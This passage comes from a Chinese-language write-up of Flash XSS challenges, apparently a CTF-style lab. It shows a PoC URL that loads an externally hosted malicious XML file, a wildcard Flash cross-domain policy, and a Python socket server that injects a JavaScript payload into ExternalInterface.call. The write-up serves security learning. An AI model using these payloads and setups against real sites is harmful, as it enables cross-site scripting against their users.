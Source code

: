 所以 POC 为：

```
http://sandbox.host.smartgslb.com/flash_3/?url=//test.com/1.xml 
```

XML 文件的内容为：

```
<pkav>
    <rect width="200" height="300" xscale="-1" yscale="-1" rotate="-180">
        <successMsg>
        <![CDATA[
            <img src='http://xsst.sinaapp.com/Xss.swf'>
        ]]>
        </successMsg>
    </rect>
</pkav> 
```

## 13\. Flash-04

这一题我最初是直接跳过，到最后才搞定的。还是反编译 Flash，通过分析代码看到 hostName 可以指定 Flash socket 连接的服务器，就去 google 了 Flash socket 相关的资料。

结合 html 中的提示 `xss with clickjacking` 和经过一番那啥代码和坑之后有了大概的思路：

1.  在可控的服务器上运行一个 Flash socket policy server，用于 Flash 加载安全策略文件
2.  在这个可控的服务器上运行一个 Flash socket server，用于向 Flash 发送数据（主要是点击 Flash 上的 `用户登陆`）
3.  当发送的数据达到一定的要求就会把数据进入到 ExternalInterface.call 中

先构建 Flash socket policy server，这个 google 下有现成的代码，可以参考下面连接的 python 代码：

```
http://114.215.178.29/static/projects/newgis.2013/etc/flex_socket_policy/flashpolicyd.py 
```

这个服务运行在 843 端口上，策略文件的内容为：

```
<?xml version="1.0"?><cross-domain-policy><site-control permitted-cross-domain-policies="all"/><allow-access-from domain="*" to-ports="*" /></cross-domain-policy> 
```

其次构建 Flash socket server，用于向 Flash 发送 payload，这里我首先通过一个 python echo server，运行在 6700 端口，观察 Flash 和该 socket server 通信的内容。经过来回倒腾两次大概知道了规律，所以更改了 python 代码，在接收到 Flash 发送过来的数据后直接修改最后的一部分数据为 payload，然后再发送到 Flash 上，代码如下：

```
import socket

host = ''
port = 6700
backlog = 5
size = 1024
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET,socket.SO_REUSEADDR,1)
s.bind((host,port))
s.listen(backlog)
while 1:
    client, address = s.accept()
    data = client.recv(size)
    if data:
        client.send(data[:-26] + "\\\"));}catch(e){alert(1)}//")
    client.close()

```
